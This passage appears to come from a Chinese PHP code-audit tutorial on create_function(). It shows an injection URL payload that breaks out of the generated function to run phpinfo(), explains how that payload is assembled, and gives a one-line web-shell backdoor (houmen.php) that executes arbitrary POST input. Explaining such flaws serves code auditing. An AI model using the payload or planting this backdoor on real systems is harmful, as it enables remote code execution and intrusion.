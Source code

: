 `payload`的构造：

```
http://localhost/test2.php?c=1));}phpinfo();/*
```

![img](http://cdn.ayusummer233.top/img/1937992-20200528135733970-253135182.png)

 

 

 还原实际的组合过程：

```
$lambda=create_function('$a,$b',"return (strlen($a)-strlen($b)+" . "strlen(1));}phpinfo();/*));");
```

匿名函数实际的执行：

```
 function ft($a,$b){
    return (strlen($a)-strlen($b)+" . "strlen(1));}phpinfo();/*));
 }
```

回车换行整理一下：

```
 function ft($a,$b){
    return (strlen($a)-strlen($b)+" . "strlen(1));
    }
    phpinfo();
    /*));
 }
```

### 打造后门

houmen.php

```
<?php $func =create_function('',$_POST['cmd']);$func();?>
```

`create_function()`是可以利用当后门的函数，实际上它是通过执行`eval`实现(此处相当于一句话木马)，访问如下：

![img](http://cdn.ayusummer233.top/img/1937992-20200528140551223-1027125403.png)



### create_function()被高版本 PHP 废弃

从`PHP 7.2.0`开始，`create_function()`被废弃

分类: [PHP代码审计](https://www.cnblogs.com/zzjdbk/category/1774962.html)



## PHP数组
